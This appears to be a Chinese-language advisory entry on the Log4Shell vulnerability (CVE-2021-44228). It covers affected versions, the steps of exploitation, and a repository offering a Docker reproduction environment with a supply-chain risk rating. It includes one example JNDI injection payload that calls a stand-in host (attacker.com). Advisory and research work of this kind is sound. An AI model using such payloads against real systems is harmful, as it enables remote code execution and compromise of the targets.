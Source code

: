 ## CVE-2021-44228 - Apache Log4j2 JNDI 远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，允许攻击者执行任意代码

**影响版本:** 2.0-beta9 至 2.15.0 (不包括安全版本 2.12.2, 2.12.3 和 2.3.1)

**利用条件:** 目标系统使用受影响版本的 log4j-core 并且启用了消息查找替换功能。攻击者需要能够控制日志消息或日志消息参数。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228 (Log4Shell) 是 Apache Log4j2 中的一个严重漏洞。攻击者可以通过在日志消息中插入恶意的 JNDI 查找字符串，利用 JNDI 功能从远程 LDAP 服务器加载和执行任意代码。 

**利用方式：**

1.  攻击者发送包含恶意 JNDI 查找字符串的请求，例如 `${jndi:ldap://attacker.com/evil}`，到目标应用程序。
2.  如果目标应用程序使用 Log4j2 记录该请求，Log4j2 将尝试解析该 JNDI 字符串。
3.  Log4j2 通过 JNDI 接口连接到攻击者控制的 LDAP 服务器 `attacker.com`。
4.  攻击者的 LDAP 服务器返回一个包含恶意 Java 类的响应。
5.  Log4j2 加载并执行该恶意 Java 类，导致远程代码执行。

**有效性：**

提供的 POC 代码（Vulhub 环境配置）有效，用于搭建一个可重现 Log4Shell 漏洞的环境。它通过 Docker-Compose 部署一个包含漏洞的 Apache Solr 实例，方便研究人员进行漏洞复现和分析。

**投毒风险：**

该仓库本身主要提供的是漏洞复现环境的配置，投毒风险较低。但是，使用任何第三方代码库或环境时，都需要谨慎评估潜在的风险。这里存在一定风险，因为攻击者可能篡改该仓库，在 LDAP 服务器返回的恶意 Java 类中植入恶意代码，使得利用漏洞时执行预期之外的操作。 因此评判投毒风险为10%，主要为潜在的供应链攻击风险。

**项目地址:** [Alan-coder-eng/log4j-cve-2021-44228-](https://github.com/Alan-coder-eng/log4j-cve-2021-44228-)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)